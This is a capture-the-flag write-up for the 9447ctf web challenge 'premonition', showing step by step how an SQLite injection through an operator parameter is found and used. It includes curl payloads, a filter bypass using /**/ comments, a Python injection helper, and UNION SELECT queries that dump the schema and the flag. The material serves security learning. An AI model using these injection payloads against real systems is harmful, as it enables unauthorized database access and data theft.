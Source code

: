 ```yaml
---
layout: post
title: "9447ctf: premonition"
author: f0rki
categories: writeup
---
```


* **Category:** Web
* **Points:** 140
* **Solves:** 121
* **Description:**

>  There's been some weird occurrences going on at our school. Teacher's answer questions as though they knew the answer in advance, test results being handed out before the test, and now a weird web form giving info about us. Can you find out what weird information is on it?
>
>
>  Find the page at <http://premonition-p8l05mpz.9447.plumbing:9447>


## Write-up

We got an angular.js app that fetches data via a REST API. We identified the following
valid URLs.
```
curl "http://premonition-p8l05mpz.9447.plumbing:9447/
    /firstname" -d "firstname=X"
    /lastname" -d "lastname=X"
    /class" -d "class=X"
    /score" -d "score=0&ineq=>"
    /date_birth" -d "date_birth=0&ineq=>"
```
They all give back json data. To shorten the following curl commands:
```
url="http://premonition-p8l05mpz.9447.plumbing:9447/score"
```

We sent the following request, which returns us no results
```
$ curl "$url" -d "score=0&ineq=<"
[]
```
But if we put an extra `'` in there... something strange happens
```
$ curl "$url" -d  "score=0'&ineq=<"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"], ["Ingeborg", "Dunham", 93.0, "5D"], ["Layne", "Agrawal", 94.0, "5K"], ["Kai", "Nathanson", 94.0, "5A"], ["Catharine", "Mcnally", 92.0, "5J"], ["Jeromy", "Duncanson", 92.0, "5D"], ["Lewis", "Oglesbee", 93.0, "5K"], ["Terri", "Colombo", 94.0, "5A"], ["Geraldo", "Penson", 93.0, "5J"], ["Rachael", "Ackermann", 92.0, "5D"], ["Winford", "Hendley", 93.0, "5K"], ["Nella", "Avila", 95.0, "5A"], ["Albertine", "Walmsley", 91.0, "5J"], ["Tyson", "Jefferies", 93.0, "5D"], ["Beulah", "Kaba", 95.0, "5K"], ["Kendra", "Fettig", 94.0, "5A"], ["Kathie", "Bieker", 94.0, "5J"], ["Sharon", "Martelli", 93.0, "5D"], ["Eusebio", "Champagne", 92.0, "5K"], ["Roni", "Neuberger", 93.0, "5A"], ["Kristopher", "Haber", 92.0, "5J"], ["Rubin", "Puryear", 94.0, "5D"], ["Edwina", "June", 95.0, "5K"], ["Imogene", "Burmeister", 91.0, "5A"], ["Jonell", "Dark", 95.0, "5J"], ["Awilda", "Oler", 95.0, "5D"], ["Delbert", "Heminger", 92.0, "5K"], ["Marina", "Lombardi", 93.0, "5A"], ["Katharyn", "Veselka", 92.0, "5J"]]
```
OK so maybe we have some kind of injection vulnerability in the database backend.
Next we tried the `ineq` parameter:
```
$ curl "$url" -d "score=0'&ineq=x"
{"user": "sqliteadmin@localhost", "error": "near \"x\": syntax error"}
```
Oh how nice it seems to be sqlite in the background. And apparently the inequality
operator is just inserted into the raw statement. The score parameter on the other
hand seems to be bound using `?`, like in prepared statements.
```
$ curl "$url" -d "score=95&ineq=<>--x"
```
Gives us an error but
```
$ curl "$url" -d "score=95&ineq=<>?--x"
```
works just fine. We can also see that whitespace are filtered. So we cannot do something like
```
$ curl "$url" -d "score=100&ineq=>? or 1=1--x"
```
which will result in an error. But then I remebered a neat trick about how to bypass this common
restriction using C-style comments:
```
$ curl "$url" -d "score=100&ineq=>?/**/or/**/1=1--x"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"],  ....
```
Yay we get a list of all students :D So we have a full blown SQL injection.
To make things easier I created a small python function for doing the injections:
```python
def inject(x):
    x = x.replace(" ", "/**/")
    print("Injecting: '{}'".format(x))
    resp = requests.post("http://premonition-p8l05mpz.9447.plumbing:9447/score",
                         data={"score": 100, "ineq": x})
    return resp.content
```
Note that `score > 100` will not any results, so we won't get any results from the normal
part of the query.

First thing we managed to dump the schema of the sqlite database:
```python
schema = inject(">? union select name, sql, 0, name from sqlite_master--x")
print("got schema:")
schema = json.loads(schema)
for x in schema:
    print("table", x[0], "created with:\n", x[1])
```
We get the following output:
```
Injecting: '>?/**/union/**/select/**/name,/**/sql,/**/0,/**/name/**/from/**/sqlite_master--x'
got schema:
table s3ekr17_passwords created with:
 CREATE TABLE s3ekr17_passwords(
	userid real,
	password text
)
table students created with:
 CREATE TABLE students(
	userid real,
	firstname text,
	lastname text,
	score real,
	teacher real,
	class text,
	date_birth date,
	date_death date
)
```

So the flag is probably in the `s3ekr17_passwords` table. We can just get the contents using
a union select. Turns out each of the passwords of the users was a part of the flag and the
userid was the position of the character. So we just appended an `order by` and joined the
flag by parsing the json output.
```
x = inject(">? union select password, password, userid, password from s3ekr17_passwords order by userid--x")
print(x)
data = json.loads(x)
flag = "".join(x[0] for x in data)
print("the flag is:")
print(flag)
```
We get the following output:
```
Injecting: '>?/**/union/**/select/**/password,/**/password,/**/userid,/**/password/**/from/**/s3ekr17_passwords/**/order/**/by/**/userid--x'
[["9", "9", 0.0, "9"], ["4", "4", 1.0, "4"], ["4", "4", 2.0, "4"], ["7", "7", 3.0, "7"], ["{", "{", 4.0, "{"], ["u", "u", 5.0, "u"], ["S", "S", 6.0, "S"], ["e", "e", 7.0, "e"], ["r", "r", 8.0, "r"], ["A", "A", 9.0, "A"], ["g", "g", 10.0, "g"], ["e", "e", 11.0, "e"], ["n", "n", 12.0, "n"], ["T", "T", 13.0, "T"], ["s", "s", 14.0, "s"], ["_", "_", 15.0, "_"], ["a", "a", 16.0, "a"], ["N", "N", 17.0, "N"], ["d", "d", 18.0, "d"], ["_", "_", 19.0, "_"], ["s", "s", 20.0, "s"], ["p", "p", 21.0, "p"], ["a", "a", 22.0, "a"], ["C", "C", 23.0, "C"], ["e", "e", 24.0, "e"], ["s", "s", 25.0, "s"], ["_", "_", 26.0, "_"], ["a", "a", 27.0, "a"], ["R", "R", 28.0, "R"], ["e", "e", 29.0, "e"], ["_", "_", 30.0, "_"], ["p", "p", 31.0, "p"], ["e", "e", 32.0, "e"], ["a", "a", 33.0, "a"], ["s", "s", 34.0, "s"], ["A", "A", 35.0, "A"], ["n", "n", 36.0, "n"], ["t", "t", 37.0, "t"], ["_", "_", 38.0, "_"], ["R", "R", 39.0, "R"], ["a", "a", 40.0, "a"], ["c", "c", 41.0, "c"], ["E", "E", 42.0, "E"], ["s", "s", 43.0, "s"], ["}", "}", 44.0, "}"]]

the flag is:
9447{uSerAgenTs_aNd_spaCes_aRe_peasAnt_RacEs}
```

